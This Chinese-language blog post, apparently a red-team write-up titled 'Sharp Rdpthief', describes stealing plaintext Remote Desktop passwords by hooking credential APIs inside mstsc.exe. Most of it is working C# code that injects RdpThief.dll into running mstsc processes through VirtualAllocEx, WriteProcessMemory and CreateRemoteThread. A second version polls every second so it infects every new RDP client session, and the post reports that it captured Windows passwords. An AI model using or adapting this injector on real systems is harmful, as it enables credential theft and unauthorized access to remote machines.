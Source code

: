 ```yaml
---
layout: post
title: Sharp Rdpthief

---
```


## 0x01

键盘记录程序通常用于捕获明文凭证。但是，很难用通用的键盘记录程序隔离密码，而且冗长的会话可能导致非常详细的输出，很难解析。

然后就有了rdp thief，通过API Hooking 从 mstsc.exe 中提取明文密码。

[https://github.com/0x09AL/RdpThief](https://github.com/0x09AL/RdpThief)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210924110524.png)

## 0x02

利用原理利用 API  HOOK相关 API 处理完 mstsc 中输入 的明文凭据后，将其窃取。 MDSec 发现负责处理用户名，密码和域 的 API 分 别 为CredIsMarshaledCredentialW,CryptProtectMemory 和SspiPrepareForCredRead。

RDPthief要在用户输入账号密码前先把dll注入到mstsc进程中，找一个sharp dll注入模板

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210924113616.png)

注入的进程名称改为mstsc

```c#
Process[] expProc = Process.GetProcessesByName("mstsc");
```

更改之后的代码如下

```c#
    static void Main(string[] args)
    {
        String dir =
       Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
        String dllName = "C:\\Windows\\Temp\\RdpThief.dll";
        Process[] mstscProc = Process.GetProcessesByName("mstsc");
        int pid = mstscProc[0].Id;

        IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
        IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
        IntPtr outSize;
        Boolean res = WriteProcessMemory(hProcess, addr,
       Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
        IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"),
       "LoadLibraryA");
        IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib,
       addr, 0, IntPtr.Zero);
    }
```

## 0x03

成功捕获windows密码

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210924114935.png)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210924114857.png)

## 0x04

经过测试，mstsc.exe启动后，运行RDPthief已经可以窃取到windows的明文密码，代码中还需要加入一个循环，用循环的方法检测mstsc什么时候启动，使用 Thread.Sleep 方法在每次迭代之间暂停一秒钟

```c#
while (true)
            {
                Process[] mstscProc = Process.GetProcessesByName("mstsc");
                if (mstscProc.Length > 0)
                {
                    for (int i = 0; i < mstscProc.Length; i++)
                    {
                        int pid = mstscProc[i].Id;
                        IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
                        IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
                        IntPtr outSize;
                        Boolean res = WriteProcessMemory(hProcess, addr,
                       Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
                        IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"),
                       "LoadLibraryA");
                        IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr,
                       0, IntPtr.Zero);
                    }
                }
            Thread.Sleep(1000);//迭代中添加延时1000ms
```

完整代码，见github
